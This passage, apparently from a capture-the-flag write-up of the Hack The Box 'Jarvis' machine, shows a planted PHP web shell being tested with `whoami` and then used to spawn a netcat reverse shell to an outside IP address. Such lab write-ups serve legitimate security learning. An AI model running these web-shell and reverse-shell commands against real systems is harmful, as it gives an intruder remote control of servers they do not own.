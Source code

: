 <div>
<center><img src="/images/jarvis_htb_writeup/image-8-1024x615.png"></center>
</div>

There was no output, which is normal because the SQL engine saves the query output to a file instead of passing it on to PHP. We can test that the query worked by trying to run a simple command on the server (`whoami`):

{% highlight bash %}
http://jarvis.htb/yakuhito_shell.php?cmd=whoami

{% endhighlight %}

<div>
<center><img src="/images/jarvis_htb_writeup/image-9.png"></center>
</div>

One thing that I learned from the OSCP course is to only value reverse shells, so I spawned one using netcat:

{% highlight bash %}
http://jarvis.htb/yakuhito_shell.php?cmd=nc%2010.10.15.147%20443%20-e%20/bin/bash

{% endhighlight %}
